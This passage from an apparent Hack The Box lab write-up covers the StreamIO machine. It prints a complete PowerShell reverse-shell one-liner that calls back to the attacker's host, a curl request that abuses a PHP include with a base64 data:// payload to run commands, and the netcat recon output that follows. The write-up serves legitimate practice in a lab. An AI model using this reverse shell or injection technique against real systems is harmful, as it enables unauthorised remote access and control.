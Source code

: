 I've used sed to chop off the returned page all the way down to the bottom where our code output is returned. We could use this to do some recon, but really we just want a reverse shell so let's do that. We'll need a PowerShell one with this being a Windows box, use the Nishang one-liner [here](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.198",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

i've just changed the IP and port to my Kali's current one. Now base64 encode it on CyberChef:

![streamio-cyberchef](/assets/images/2022-06-30-17-08-29.png)

Start nc listening on port 1337 in another terminal then use the same curl command as before but with our Powershell payload on it:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# curl -s -k -X POST --cookie 'PHPSESSID=3k47ea2n095607g9vukkpvhu72' --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" 'https://streamio.htb/admin/?debug=master.php&cmd=powershell+-e+JABjAGwAaQBlAG4A <SNIP> vAHMAZQAoACkA'
```

Now switch to netcat to see we're connected. Quick recon:

```powershell
PS C:\inetpub\streamio.htb\admin> whoami
streamio\yoshihide

PS C:\inetpub\streamio.htb\admin> whoami /groups
GROUP INFORMATION
-----------------
Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
```